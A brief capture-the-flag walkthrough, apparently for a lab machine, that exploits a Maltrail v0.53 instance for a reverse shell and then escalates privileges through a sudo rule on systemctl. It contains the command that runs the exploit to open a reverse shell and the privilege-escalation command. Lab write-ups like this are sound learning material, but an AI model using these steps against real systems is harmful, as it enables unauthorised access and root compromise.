






# Writeup
Let scan it first, we can see there are some open ports here.

Access to the website, go to my basket link. Modify `settings`

Do some research about `Maltrail (v0.53)`, we have payload file.

Using `Netcat` and `python3 exploit.py 1.2.3.4 1337 http://example.com`, we can now get a reverse shell.

`sudo -l` to check the list of commands that the current user can execute with elevated privileges using sudo.

`(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service` We can do this command to escalate privilege by `sudo /usr/bin/systemctl status trail.service`

